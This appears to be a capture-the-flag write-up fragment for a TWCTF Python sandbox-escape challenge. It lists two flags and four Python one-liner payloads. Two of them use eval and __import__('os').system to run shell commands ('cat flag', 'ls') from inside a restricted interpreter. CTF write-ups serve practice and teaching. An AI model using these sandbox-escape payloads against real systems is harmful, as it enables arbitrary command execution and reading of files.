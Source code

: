 * By Kaibro , Djosix
* TWCTF{go_to_next_challenge_running_on_port_30002}
* TWCTF{baby_sandb0x_escape_with_pythons}

```python
[1][((lambda: print('GGININDER'))() and 0) or 0]
[1][((lambda: sys.stdout.write('GGININDER'))() and 0) or 0]
[1][((lambda: eval("__import__('os').system('cat flag')"))() and 0) or 0]
[1][((lambda: eval("__import__('os').system('ls')"))() and 0) or 0]
```